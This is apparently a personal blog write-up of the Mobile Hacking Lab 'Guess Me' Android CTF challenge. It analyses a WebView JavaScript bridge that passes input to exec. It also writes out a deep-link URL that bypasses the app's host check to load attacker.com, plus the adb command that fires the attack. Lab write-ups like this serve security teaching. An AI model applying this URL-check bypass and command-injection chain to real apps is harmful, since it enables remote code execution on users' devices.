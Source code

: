 ```yaml
---
title:  "Mobile Hacking Lab Guess Me Writeup"
date:   2024-01-22T16:40:00-0400
categories:
  - writeup
tags:
  - android
  ---
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Guess Me challenge from Mobile Hacking Lab. 

## Static Analysis
When the application is opened, the user is greeted with a guessing game. When the randomly determined number is known correctly, no action is taken other than writing a congratulatory message on the screen.

Let's analyse code with jadx.
![](./assets/images_mhl_guessme/2.png)

We have onl-y 2 activities.

![](./assets/images_mhl_guessme/3.png)

During the MainActivity code analysis, it is seen that if the info button on the home page is pressed, it sends an intent for another activity (WebviewActivity), unlike other buttons.

## WebviewActivity Analysis

![](./assets/images_mhl_guessme/4.png)

For the webview created in the WebviewActivity activity, javascript code execution is first activated and then the MyJavaScriptInterface class is added to the webview object as a javascript interface with the name "AndroidBridge". This means that methods in the MyJavaScriptInterface class with @JavascriptInterface notation can be called from within the webview.
After the settings of the Webview object are made, the loadAssetIndex and handleDeepLink methods are called.

![](./assets/images_mhl_guessme/5.png)

In the loadAssetIndex method, the index.html file in the assets folder is loaded to be displayed in the webview.

![](./assets/images_mhl_guessme/6.png)

When the index.html file is examined, as mentioned, the current time is printed on the screen by calling the getTime function via the interface called AndroidBridge.

![](./assets/images_mhl_guessme/7.png)

In the handleDeepLink method, the data sent with the intent is processed and displayed in the webpage webview. It can be seen from the manifest file in the first screenshot that the WebviewActivity activity can be triggered with intent.
The URL obtained with the incoming intent is sent to the isValidDeepLink method to be checked. According to these controls,

- Url scheme: must be mhl or https.
- Url host: mobilehackinglab
- The parameter named “url” to be sent within the URL must end with the text “mobilehackinglab.com”.

After these checks, if it is a valid connection, the function returns the data in the "url" parameter. Then, by calling the loadDeepLink method with the URL received with the intent, the relevant web page is opened in the webview.

## Finding Vulnerability and Exploitation

If the methods in the AndroidBridge interface, which can be called from within the Webview, are examined closely, a problem is noticed.

![](./assets/images_mhl_guessme/8.png)

The argument sent to the getTime function, that is, the "Time" variable, is given as an argument to the exec function without any checking and the code is executed. Here, with any command sent to the getTime function, code execution can be performed on the target device with the permissions of the application. In order to do this, we need to upload our own malicious html file to the application. In order for our own file to be uploaded, the url in the intent we will send must be able to bypass the checks in the application.

```
https://mobilehackinglab?url=attacker.com
```

If a link address like this is sent with intent, the check will not be bypassed because the value in the url parameter does not end with “mobilehackinglab.com”.

```
-	https://mobilehackinglab?url=attacker.com#mobilehackinglab.com
-	https://mobilehackinglab?url=attacker.com&test=mobilehackinglab.com
-	…

```

In case of trying to bypass the control in the above ways, the control cannot be bypassed because the "url" parameter will be taken as attacker.com while parsing the url. It would be useful to analyze the source code of the "getQueryParameter" function used when getting the URL parameter.

[![](./assets/images_mhl_guessme/9.png)](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax)


[![](./assets/images_mhl_guessme/10.png)](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1724;bpv=0;bpt=1)

In this function, the parameters are separated into their parts with the "&" sign, and then the relevant values are obtained by separating them with the "=" sign. Before the fragmentation process, the query part of the given link address is retrieved with the getEncodedQuery method.

![](./assets/images_mhl_guessme/11.png)

According to the information given in the source code. It returns the part between the "?" and "#" signs. This situation can also be seen when the details of the code are examined.

![](./assets/images_mhl_guessme/12.png)

As seen here, the url “?” It is divided starting from the question mark and the remaining part after the question mark is returned as the query part.

To bypass the check, a link address like this can be used:

```
https://mobilehackinglab?url=attacker.com?hack=mobilehackinglab.com
```

Although it is an incorrect URI in terms of Uri syntax, it successfully bypasses the checks and allows attacker.com to be loaded into the webview. Here is the situation that causes the checks to be skipped:
- While the Uri is divided into parts, the query part will be taken from the first question mark and will be returned as "url=attacker.com?hack=mobilehackinglab.com".
- Then, when dividing the query text into parameters, the url parameter will be accepted as “attacker.com?hack=mobilehackinglab.com” since there is no “&” sign in the query.
- Since the resulting query parameter contains the text "mobilehackinglab.com" at the end, the check will be bypassed.
- Finally, the loadDeepLink function tries to load the "attacker.com?hack=mobilehackinglab.com" value in the "url" parameter and attacker.com is loaded.

Python http server code created for the attack:

![](./assets/images_mhl_guessme/13.png)

HTML page that allows us to send commands to the GetTime function:

![](./assets/images_mhl_guessme/14.png)

The adb command used to test the attack:

```
adb shell am start -n com.mobilehackinglab.guessme/.WebviewActivity -d https://mobilehackinglab?url=10.0.3.2?hack=mobilehackinglab.com
```

Result:

![](./assets/images_mhl_guessme/15.png)


Thanks for reading! See you in next writeups 👋🏻👋🏻